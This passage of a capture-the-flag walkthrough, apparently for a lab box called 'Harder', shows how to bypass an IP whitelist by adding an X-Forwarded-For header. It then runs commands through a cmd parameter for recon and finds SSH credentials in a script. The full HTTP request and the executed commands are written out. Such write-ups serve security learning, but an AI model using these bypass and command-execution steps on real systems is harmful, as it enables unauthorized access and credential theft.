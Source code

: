 ```
```
now visite http://shell.harder.local. the same login page will appear. log in as `evs` you will recives this message
```
Your IP is not allowed to use this webservice. Only 10.10.10.x is allowed
```
I assume that we can access the site coz the website have a whitelist IP which allow only 10.10.10.x. We can add **X-Forwarded-For (XFF)** header to bypass the security. read more [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For)

now open burp-suit and capture the get request. add `X-Forwarded-For: 10.10.10.x` in http header. the http request should looks something like this:
```
POST /index.php HTTP/1.1
Host: shell.harder.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://shell.harder.local/
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
Connection: close
X-Forwarded-For: 10.10.10.0
Cookie: PHPSESSID=95b0vgsjlqfo59t4inkdqni97o
Upgrade-Insecure-Requests: 1

action=set_login&user=evs&pass=<password>
```
Boom we are in!
![cmd](../pic/Screenshot%202020-08-20%20at%2018.06.57.png) seem like the site allow us to execute command line on the webserver. let try if it works. send the forward the latest request to `Repeater` now we will extent oh requet body by by adding `&cmd=command that we want to execute`

your body should looks something like this:
```php
action=set_login&user=evs&pass=password&cmd=id
```
this is the response we got
```html
<pre>
uid=1001(www) gid=1001(www) groups=1001(www)
</pre>
```
now let recon. luckly we can grab user flag as you www user hehe. so grab user flag `cmd=cat  /home/evs/user.txt`. after some more recon found really intressting script after I use `find` command
```
cmd=find / -user evs 2> /dev/null
cmd=find / -user www 2> /dev/null
```
good luck spoting the file. hint: `___.sh`. Open the file and you will find evs ssh credential
```bash
#!/bin/ash

# ToDo: create a backup script, that saves the /www directory to our internal server
# for authentication use ssh with user &quot;evs&quot; and password &quot;U6j1b_____________&quot;
```